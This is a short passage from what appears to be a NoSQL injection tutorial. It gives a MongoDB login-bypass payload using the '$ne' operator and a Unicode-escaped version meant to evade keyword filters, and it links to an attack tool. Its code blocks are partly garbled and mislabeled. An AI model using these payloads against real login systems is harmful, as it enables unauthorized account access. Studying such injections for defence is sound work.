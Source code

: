 ````sql
var server = app.listen(8000, '0.0.0.0', function () {

    var host = server.address().address
    var port = server.address().port

    console.log("listening on http://%s:%s", host, port)
});

index.js

h1 #{message}
p #{message}
```

- Send payload in JSON format: `{"username":{"$ne":1},"password": {"$ne":1}}`
- When processing MongoDB queries, the JSON format is often used to send user-submitted data to the server
On the business side, if the target filters keywords such as `$ne`, you can use Unicode encoding to bypass it, because JSON can directly parse Unicode.

````sql
{"username":{"\u0024\u006e\u0065":1},"password": {"\u0024\u006e\u0065":1}}
// {"username":{"$ne":1},"password": {"$ne":1}}
```

# Nosql injection related tools
- [Project address](https://github.com/youngyangyang04/NoSQLAttack)

# Reference article
- [Article address](https://whoamianony.top/2021/07/30/Web%E5%AE%89%E5%85%A8/Nosql%20%E6%B3%A8%E5%85%A5%E4%BB%8E%E9%9B%B6%E5%88%B0%E4%B8%80/)